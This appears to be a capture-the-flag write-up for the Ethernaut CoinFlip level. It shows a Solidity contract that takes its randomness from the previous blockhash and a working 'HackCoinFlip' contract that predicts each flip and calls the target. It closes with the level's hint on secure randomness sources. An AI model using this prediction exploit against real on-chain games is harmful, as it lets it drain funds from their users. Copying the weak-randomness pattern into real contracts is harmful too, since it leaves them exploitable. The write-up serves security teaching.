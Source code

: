 # Coinflip


This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.


``` 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Solution

In this challenge we have to guess a coin flip for 10 times in a row.

Run the b`hackFlip' function 10 times to complete the task.

``` 
contract HackCoinFlip {

address contractAddress = 0x3df96Fe3eB08a6E66cf1951CB5fbd70cC8D6861e;  // Replace with the target contract address
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

function hackFlip() public returns(bool){

    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool guess = coinFlip == 1 ? true : false;

    (bool success, bytes memory returnData) = contractAddress.call(abi.encodeWithSignature("flip(bool)",guess));

    if (success) {
        return true;
    } else {
        return false;

    }

}

}
```
### Hint form Ethernaut

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).